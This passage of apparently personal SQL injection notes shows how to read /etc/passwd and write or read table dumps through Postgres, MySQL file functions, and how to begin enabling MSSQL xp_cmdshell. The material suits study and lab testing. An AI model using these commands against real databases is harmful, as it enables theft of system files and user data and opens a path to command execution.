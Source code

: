 ![img.png](assets/stacked_queries_mssql_select.png)

## Reading and Writing Files
### Postgres
#### Reading files
```sql
create table tmp(data text);
copy tmp from '/etc/passwd'; select * from tmp;
```
or
```sql
select pg_read_file('/etc/passwd');
```
#### Writing files
```sql
copy (select * from users) TO  '/tmp/users.txt';
select pg_read_file('/tmp/users.txt');
```

### Mysql
Check availability of `load_file` and `outfile` functions
```sql
SELECT @@GLOBAL.secure_file_priv;
```
- secure_file_priv = NULL - function is not available
- secure_file_priv = /var/lib/mysql-files/ - function is available  in this directory
#### Writing files
```sql
select * from users into outfile '/var/lib/mysql-files/users.txt';
```
#### Reading files

```sql
select load_file('/var/lib/mysql-files/users.txt');
```

### MSSQL
xp_cmdshell is disabled by default.
**In my docker container for mssql xp_cmdshell is not working.** 
Linux version of MSSQL does not support xp_cmdshell.
#### Enable xp_cmdshell
If the database user has the appropriate permissions, we can enable xp_cmdshell:
```sql
-- To allow advanced options to be changed.
EXECUTE sp_configure 'show advanced options', 1;
GO
-- To update the currently configured value for advanced options. RECONFIGURE;
RECONFIGURE;
GO
```